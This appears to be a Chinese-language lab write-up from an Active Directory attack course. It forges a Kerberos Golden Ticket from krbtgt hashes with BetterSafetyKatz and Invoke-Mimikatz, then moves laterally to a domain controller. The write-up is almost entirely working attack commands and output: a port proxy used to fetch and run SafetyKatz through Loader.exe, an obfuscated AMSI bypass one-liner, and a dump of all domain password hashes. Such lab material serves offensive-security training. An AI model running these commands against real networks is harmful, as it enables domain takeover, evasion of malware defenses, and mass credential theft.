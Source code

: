 Task
•  Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.
•  Use the Golden ticket to (once again) get domain admin privileges from a machine.

# Using the NTLM hash or AES key of krbtgt account of us.techcorp.local, create a Golden ticket.

在hands-on 11我们已经拿到krtgt的哈希，现在可以拿来申请一张金票

## 方法一，使用BetterSafetyKatz.exe申请金票
```
PS C:\Windows\system32> C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
[+] Stolen from @harmj0y, @TheRealWover, @cobbr_io and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
[+] Randomizing strings in memory
[+] Suicide burn before CreateThread!

  .#####.   STH8YPVC 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "SG5STLYOPBQM1J5QHU4" - (2ZSR9)
 ## / \ ##  /*** H37CADQDEN5XHW `5JJK91LL7P` ( PTU1RF07@5JJK91LL7P.com )
 ## \ / ##       > https://blog.5JJK91LL7P.com/STH8YPVC
 '## v ##'       DZ9AM81SJDVBRP5             ( 1ZV9CVQKU8L7DRDBIE3ERF84 )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

STH8YPVC(commandline) # kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-
2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt
User      : Administrator
Domain    : us.techcorp.local
VU54FELKey: 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 - aes256_hmac
Lifetime  : 11/2/2022 3:03:41 AM ; 11/2/2022 1:03:41 PM ; 11/9/2022 3:03:41 AM
-> Ticket : ** Pass The Ticket **

 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ us.techcorp.local' successfully submitted for current session

STH8YPVC(commandline) # exit
Bye!
```

## 方法二，使用 Invoke-Mimikatz申请金票

引入
```
. C:\AD\Tools\Invoke-Mimikatz.ps1
```

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /rc4:b0975ae49f441adc6b024ad238935af5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```


Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'


上面命令执行完会把ticket导入到当前session

查看
```
PS C:\Windows\system32> klist

Current LogonId is 0:0xead79a

Cached Tickets: (1)

#0>     Client: Administrator @ us.techcorp.local
        Server: krbtgt/us.techcorp.local @ us.techcorp.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 11/2/2022 3:03:41 (local)
        End Time:   11/2/2022 13:03:41 (local)
        Renew Time: 11/9/2022 3:03:41 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

# Use the Golden ticket to (once again) get domain admin privileges from a machine.

## 方法一,winrs 横向

1. 横向到dc

```
PS C:\Windows\system32> winrs -r:us-dc cmd
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>hostname
hostname
US-DC

C:\Users\Administrator>whoami
whoami
us\administrator

```

2. 传Loader.exe

```
echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y
```

3. 操纵流量

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.138
```

4. load mimikatz,dump哈希

学生机用pyhon开一个web服务

DC上执行
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

dump出域中所有用户的哈希
```
mimikatz # lsadump::lsa /patch
Domain : US / S-1-5-21-210670787-2521448726-163245708

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 43b70d2d979805f419e02882997f8f3f

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : b0975ae49f441adc6b024ad238935af5

....
```

## 方法二,PS 横向

1. 横向到DC

```
Enter-PSSession -ComputerName us-dc
```

2. 在DC关闭AMSI
```
[us-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

3. 回来学生机制作一个DC的session

```
$sess = New-PSSession us-dc.us.techcorp.local
```

4. 对上面session 注入mimikatz

```
Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess
```

5. 再次进到哈希，用mimikatz dump出哈希

```
PS C:\AD\Tools> Enter-PSSession -Session $sess
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```